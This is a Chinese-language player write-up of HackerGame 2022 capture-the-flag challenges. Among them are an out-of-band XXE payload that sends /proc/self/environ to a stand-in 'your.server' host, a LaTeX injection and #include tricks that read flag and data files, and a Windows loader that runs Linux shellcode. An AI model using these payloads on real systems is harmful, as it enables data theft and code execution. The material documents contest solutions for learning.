










# HackerGame 2022 (by std::_Rb_tree)

<del>某Arch邪教徒 + Jvav程序猿</del>第二次打HackerGame, 最后 rank 25 起码比[上次](https://github.com/USTC-Hackergame/hackergame2021-writeups/blob/master/players/rbtree/README.md)强点...

本页内容包含: 一些废话(主要) + 非正经题解(次要)

p.s. 写这个的wp的时候已经凌晨3点多了, 脑子有点不转悠, 如有错误或纰漏请见谅!

先排出自己认为最令人身心愉悦和最令人痛不欲生(?)的几道题:

#### 身心愉悦

1. 量子藏宝图: 因为我目前的方向就是量子计算相关的, 所以看到有量子计算的题还是有些心情愉悦的.
2. 置换魔群: 虽然这道题花了很长时间而且第三问依赖了一些玄学办法, 但是做完之后感觉这题设计的还是挺巧妙的.
3. 片上系统: 因为是 RISCV (doge)

#### 痛不欲生

1. 猜数字: 研究了一整天 xxe 最后发现正解居然这么简单...
2. 传达不到的文件: 完全无处下手 (另外就是因为我太菜了...)
3. 旅行照片 2.0: 氪金玩家大有优势 (虽然不氪金也能做)


## 签到题

不会有人真的手画了好多遍才想起来去F12吧 (doge)


## 猫咪问答喵

1 到 3 题没有太多技巧, 慢慢搜总能搜出来 (注意别用垃圾百度). 

第 4 题去 github 的 commit history 里搜 argc 很容易就能搜出来, 当然如果你 clone 了 linux 的源码仓库可以直接 `git log --all --grep='argc'`. 

第 5 题直接 google 搜索 `"e4:ff:65:d7:be:5d:c8:44:1d:89:6b:50:f5:50:a0:ce"` 即可, **注意要加引号**.

第 6 题找到相关网页用 Web Archive 回溯即可.


## 家目录里的秘密

VSCode 直接 `grep -Ri "flag{"` 就可以, 对于明文 flag 这种办法屡试不爽 (doge).

第二题依旧是个谷歌题, 直接搜 "how to restore rclone password", 很容易就能找到[这篇文章](https://forum.rclone.org/t/how-to-retrieve-a-crypt-password-from-a-config-file/20051), 人家还贴心的给你提供了一个[在线运行环境](https://play.golang.org/p/IcRYDip3PnE).


## HeiLang

作为一个不懂[某些玄学经典控制理论](https://en.wikipedia.org/wiki/PID_controller)的理工男, 我觉得这道题实在是太酷了.

往往最蠢的方法是最有效率的 (doge), 直接写一段脚本做 parsing:

```python
def solve(ss):
     ss = [s.strip() for s in ss.strip().split('|')]
     ss[0] = ss[0][2:]
     tail = ss[-1].split('] = ')
     ss[-1] = tail[0]
     target = int(tail[-1])
     ss = list(map(int, ss))
     return ss, target

def print_code(idxs, target):
     cs = ""
     for idx in idxs:
         cs += f"a[{idx}] = {target}"
     return cs
 

for line in sss.strip().split('\n'):
     line = line.strip()
     code = ""
     if line != "":
         idxs, target = solve(line)
         code += print_code(idxs, target)
```


## Xcaptcha

Humanity wastes about 500 years per day on CAPTCHAs. It’s time to end this madness!

```python
session = requests.Session()
session.get("http://202.38.93.111:10047" + tok)
resp = session.get("http://202.38.93.111:10047/xcaptcha")
text = resp.text
pattern = re.compile('\\d+\\+\\d+')
eq1, eq2, eq3 = pattern.findall(text)
session.post("http://202.38.93.111:10047/xcaptcha", data={
    "captcha1": str(eval(eq1)), "captcha2": str(eval(eq2)), "captcha3": str(eval(eq3)), 
}).text
```


## 旅行照片 2.0

题一问直接果断 `exiftools`, 第二问直接果断放弃 (doge.


## 猜数字

这是我做过最坑的 CTF 题 qwq. 上来发现有 xxe 漏洞果断构造 payload 结果发现 `/proc/self/environ` 每个环境变量间是用 `\x00` 分隔的, 研究了一整天怎么绕过判断以及怎么 encode, 最后还去读了 `XMLInputFactory` 的源码. 卡了一天结果发现正解居然这么简单!!!

先说错误方法 (doge):

构造 xxe 引用外部实体. 

```xml
<?xml version="1.0"?>
<!DOCTYPE a [
    <!ENTITY % start "<![CDATA[">
    <!ENTITY % stuff SYSTEM "file:///proc/self/environ">
    <!ENTITY % end "]]>">
    <!ENTITY % dtd SYSTEM "http://your.server:8000/evil.dtd">
    %dtd;
]>
<state><guess>0.5</guess></state>
```

以及 dtd 文件:

```
<!ENTITY % payload "<!ENTITY &#37; send SYSTEM 'ftp://your.server:443/data=%start;%stuff;%end;'>">
%payload;
%send;
```

这种方法在这个题里不适用的原因是在 `XMLInputFactor` 会对引用的外部实体做 parsing, 确保其合法, `\x00` 没法通过检验, 就算是用 `CDATA` 包起来最后 java 向你的 ftp server 发请求的时候也去检查你的 url 是否合法, 目前也没有找到合适的 filtering 或 encoding 的方法, 因此 xxe 是行不通的.

再说正解, 就三个字母: NaN


## LaTeX 机器人

又是一个谷歌题, 慢慢搜总能找到解法

第一问直接 `\include{/flag1}`

第二问需要用一些魔法, 可以参考这个链接:

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection

```
$$ \catcode `\$=12 \catcode `\#=12 \catcode `\_=12 \catcode `\&=12 \input{/flag2}
```


## Flag 的痕迹

查官方文档, 最后 diff 一下就可以了




## 安全的在线测评

第一问没有限制权限可以在运行时读入文件, 也可以图省事用 `#include` 泄漏然后直接 puts 输出. 这里有个小妙招就是可以通过在 `#include` 前面各种花式 `#define` 泄漏绝大多数其他语言的代码文件 (其他文本文件就得看运气了).

```
#include "../data/static.out"
int main() {}
```

```
9760010330994056474520934906037798583967354072331648925679551350152225627627480095828056866209615240305792136810717998501360021210258189625550663046239919
```

```
int x =
#include "../data/static.out"
int main() {}
```

```
10684702576155937335553595920566407462823007338655463309766538118799757703957743543601066745298528907374149501878689338178500355437330403123549617205342471
```

第二问没做出来, 但猜测也是利用 `#include` 在编译期直接把数据编译进代码里, 但具体怎么做还没想到. (写这篇 wp 的时候比赛还没结束, 看不到官方给的思路).


## 线路板

没有画过板子, 现下了一个 linux 也能用的 KiCad, 只显示最下面一层改成显示边框模式就可以看到了.


## Flag 自动机

Windows 逆向题用 Kali 开 wine 跑 IDA Pro 老传统了 (doge).

先找到 `sub_401510` 这个函数, 发现 flag 被存到了 `Box` 指针中, 而给 `Box` 的函数赋值的函数张这样:

```c
char *sub_401F8A()
{
  char *Destination; // [esp+18h] [ebp-10h]
  ((void (*)(void))loc_401C1A)();
  sub_401EB8();
  sub_408290(&unk_40A1A5, (char)&Source);
  Destination = (char *)malloc(0x2Bu);
  strncpy(Destination, &Source, 0x2Bu);
  return Destination;
}
```

`sub_401EB8` 和 `sub_408290` 中都没有什么东西, 可以确定核心逻辑在 `loc_401C1A` 这个函数中. 但出题人似乎对这个函数做了手脚, 使得 IDA 的 f5 会失效 (Binary Ninja 好一些, 但也没法完全分析对). 



这时候干脆就别静态分析了, 直接 attach 一个 process 劫持执行流到下图中的第 21 行就可以了, 然后你就会惊喜的同级目录下发现多了一个文件, 点开一看, 嘶... `flag{Y0u_rea1ly_kn0w_Win32API_89ab91ac0c}`




## 微积分计算小练习

这道题最大的难点在于由 JavaScript 在渲染页面时嵌入网页的 `<script>` 标签中的代码不会被执行, 但如果是个 `` 标签的话, 其中的 `onload` 和 `onerror` 方法依旧会在图片加载出来或加载失败的时候被执行, 因此直接嵌入一个带 `onerror` 方法的 `` 就可以了.

```html
:
```

另外值得注意的一点就算如果你在用浏览器做题 (因为用脚本做的人肯定不会忘), 请注意要手动对 base64 编码的内容进行 url encode, 我也不知道什么时候开始以为 firefox 的地址栏会自动 encode url, 导致一直 Internal Server Fault...


## 杯窗鹅影

又双叒叕是一个谷歌题, 找到[这个 repo](https://github.com/schlafwandler/attacking_wine) 之后直接用 shellcraft 构造 linux 原生的 shellcode 替换掉原来的 shellcode 就行了. 两小题的做法完全一样.

### 第一题

```python
from pwn import *
context.arch = 'amd64'
shellcode = asm(shellcraft.amd64.cat('/flag1'))
_ = [print(f"{hex(byte)}, ", end="") for byte in shellcode]
```

```c
#include <windows.h>
#include <stdio.h>

const unsigned char LINUX_SHELL_CODE[] = {
	0x48, 0xb8, 0x1, 0x1, 0x1, 0x1, 0x1, 0x1, 
	0x1, 0x1, 0x50, 0x48, 0xb8, 0x2e, 0x67, 0x6d, 
	0x60, 0x66, 0x30, 0x1, 0x1, 0x48, 0x31, 0x4, 
	0x24, 0x6a, 0x2, 0x58, 0x48, 0x89, 0xe7, 0x31, 
	0xf6, 0xf, 0x5, 0x41, 0xba, 0xff, 0xff, 0xff, 
	0x7f, 0x48, 0x89, 0xc6, 0x6a, 0x28, 0x58, 0x6a, 
	0x1, 0x5f, 0x99, 0xf, 0x5
};

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nShowCmd)
{
    LPVOID execBuffer = VirtualAlloc(NULL, sizeof(LINUX_SHELL_CODE), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    void (*pcode)() = (void(*)()) execBuffer;

    memcpy(execBuffer, LINUX_SHELL_CODE, sizeof(LINUX_SHELL_CODE));
    pcode();

    return 0;
}
```

### 第二题

```python
from pwn import *
context.arch = 'amd64'
shellcode = asm(shellcraft.amd64.execve('/flag1'))
_ = [print(f"{hex(byte)}, ", end="") for byte in shellcode]
```

```c
#include <windows.h>
#include <stdio.h>

const unsigned char LINUX_SHELL_CODE[] = {
	0x6a, 0x67, 0x48, 0xb8, 0x2f, 0x72, 0x65, 0x61, 
	0x64, 0x66, 0x6c, 0x61, 0x50, 0x48, 0x89, 0xe7, 
	0x31, 0xd2, 0x31, 0xf6, 0x6a, 0x3b, 0x58, 0xf, 
	0x5
};

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nShowCmd)
{
    LPVOID execBuffer = VirtualAlloc(NULL, sizeof(LINUX_SHELL_CODE), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    void (*pcode)() = (void(*)()) execBuffer;

    memcpy(execBuffer, LINUX_SHELL_CODE, sizeof(LINUX_SHELL_CODE));
    pcode();

    return 0;
}
```


## 蒙特卡罗轮盘赌

又到了 IOer 最喜欢的暴力打表环节!

分析题目, 发现 `srand` 的参数变动范围有限, 直接根据当前时间打一个 10000 行左右的表, 根据前两个数去表中查找后三个即可.

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

const int N = 400000;

double calc_pi()
{
    int M = 0;
    for (int j = 0; j < N; j++) {
        double x = (double) rand() / RAND_MAX;
        double y = (double) rand() / RAND_MAX;
        if (x * x + y * y < 1) { M++; }
    }
    return (double) M / N * 4;
}

int main()
{
    unsigned base = time(0);
    unsigned target = base + 30000;

    for (unsigned seed = base; seed < target; seed++) {
        srand(seed);
        double pis[5];
        printf("%u: ", seed);
        for (int i = 0; i < 5; i++) {
            pis[i] = calc_pi();
            printf("%1.5lf, ", pis[i]);
        }
        printf("\n");
    }
}
```


## 惜字如金

第一问是个阅读理解题, 读懂了就有分, 读不懂就没分. 做法就算暴力撞 hash.

```python
from hashlib import sha384
from operator import contains

def check_if(secret):
    hash = sha384(secret.encode()).hexdigest()
    if contains(hash, 'd1325d'):
        print(f'{secret} :: \n    {hash}')

for s in range(29):
    for t in range(29 - s):
        for c1 in range(29 - s - t):
            for d in range(29 - s - t - c1):
                for c2 in range(29 - s - t - c1 - d):
                    rest = 28 - s - t - c1 - d - c2
                    base1 = "us" + ('s' * s) + "t" + ('t' * t) + "c" + ('c' * c1)
                    base2 =  ".ed" + ('d' * d) + "u.c" + ('c' * c2) + "n"

                    case1 = base1 + base2 + 'n' * rest
                    check_if(case1)

                    rest -= 1
                    if rest < 0: continue
                    case2 = base1 + 'e' + base2 + 'n' * rest
                    case3 = base1 + base2+ 'n' * rest + 'e'
                    check_if(case2)
                    check_if(case3)

                    rest -= 1
                    if rest < 0: continue
                    case4 = base1 + 'e' + base2 + 'n' * rest + 'e'
                    check_if(case4)
```


## 置换魔群

[Permutation Group - Wikipedia](https://en.wikipedia.org/wiki/Permutation_group)

[IO Wiki - 置换群](https://oi-wiki.org/math/permutation-group/)

根据 RSA 算法的原理, 有:
$$
\begin{aligned}
& c = m^e \\
& m = c^d = m^{ed} \\
\end{aligned}
$$
由于置换群内的元素符合结合律, 因此需要求一个整数 $d$, 使得:
$$
ed \equiv 1 \mod k
$$
$k$ 为置换 $m$ 的周期, 即 $m^k = m$. 

根据 $m = c^d$ 可知, $c$ 和 $m$ 周期相同, 所以这里我们只需要求出 $c$ 的周期即可. 

根据置换的轮换分解, 一个置换群中任意非幺元元素可以在不计顺序意义下唯一地分解为不交轮换之积 (证明请参考[知乎文章](https://zhuanlan.zhihu.com/p/63987575)).

不难发现, 一个置换的周期就是其分解出的所有轮换周期的最小公倍数, 这样就可以在 $O(n)$ 时间内轻易求出 $c$ 和 $m$ 的周期 $k$ 了.

然后我们可以通过 exgcd 求出 $e$ 关于周期 $k$ 的乘法逆元 $d$, 最后通过 $m = c^d$ 解出名文 $m$

```python
from typing import *
from math import factorial, gcd
from permutation_group import PermutationElement, PermutationGroup

def lcm(a, b):
    return (a * b) // gcd(a, b)

def exgcd(a: int, b: int, arr: List[int]) -> int:
    if b == 0:
        arr[0] = 1
        arr[1] = 0
        return a
    g = exgcd(b, a % b, arr)
    t = arr[0]
    arr[0] = arr[1]
    arr[1] = t - int(a / b) * arr[1]
    return g

def inv(a: int, n: int) -> int:
    arr = [0, 1]
    gcd = exgcd(a, n, arr)
    if gcd == 1:
        return (arr[0] % n + n) % n
    else:
        return -1

def get_interval(e: PermutationElement) -> int:
    interval = 1
    for length in [len(t) for t in e.standard_tuple]:
        interval = lcm(interval, length)
    return interval

def decrypt(cipher: PermutationElement, e = 65537) -> PermutationElement:
    interval = get_interval(cipher)
    d = inv(e, interval)
    return cipher ** d
```


### 离散对数

##### 错误做法:

离散对数的底不能为幺元 (参照实数域上对数的底不能为 1):

$$
m = \log_ba = \frac{\log_ea}{\log_eb} = \frac{\log_be}{\log_ae} = \frac{\text{ord}(b)}{\text{ord}(a)} = 1
$$

##### 正解: 

思路是先单独考虑轮换的情况, 因为一个轮换中的元素不可能在运算过程中跑到其他, 求出这个置换里每个轮换需要变换的步数之后列线性同余方程组解一下就可以了.


```python
def dlog_decompose(target: PermutationElement, generator: PermutationElement) -> List[Tuple[int, int]]:
    generator_dict: Dict[int, int] = perm_to_dict(generator)
    target_dict: Dict[int, int] = perm_to_dict(target)

    # List[(step, order)]
    steps: List[Tuple[int, int]] = list()

    for cycle in generator.standard_tuple:

        if len(cycle) == 1: continue

        step = 0
        elem = cycle[0]  # pick an arbitrary element in cycle
        elem_idx_target = target_dict[elem]
        idx_iter = generator_dict[elem]  # start from the index in generator

        while idx_iter != elem_idx_target:
            idx_iter = generator_dict[idx_iter]
            step += 1

        # the order (interval) of a cycle is the length of it
        steps.append((step, len(cycle)))

    return steps


def solve_congruence_eqs(args: List[Tuple[int, int]]) -> int:
    from functools import reduce

    # a_i * x = m_i
    # a_i = args[i][0], m_i = args[i][1]

    def merge_eqs(arg1: Tuple[int, int], arg2: Tuple[int, int]) -> Tuple[int, int]:
        a1, m1 = arg1
        a2, m2 = arg2

        d = gcd(m1, m2)
        if (a2 - a1) % d != 0:
            raise Exception('No solution')

        l1, l2 = exgcd(m1 // d, m2 // d)
        return (a1 + (a2 - a1) // d * l1 * m1) % lcm(m1, m2), lcm(m1, m2)

    return reduce(merge_eqs, args)[0]


def discrete_logarithm(element: PermutationElement, base: PermutationElement) -> Optional[int]:
    try:
        congruence_eqs: List[Tuple[int, int]] = dlog_decompose(element, base)
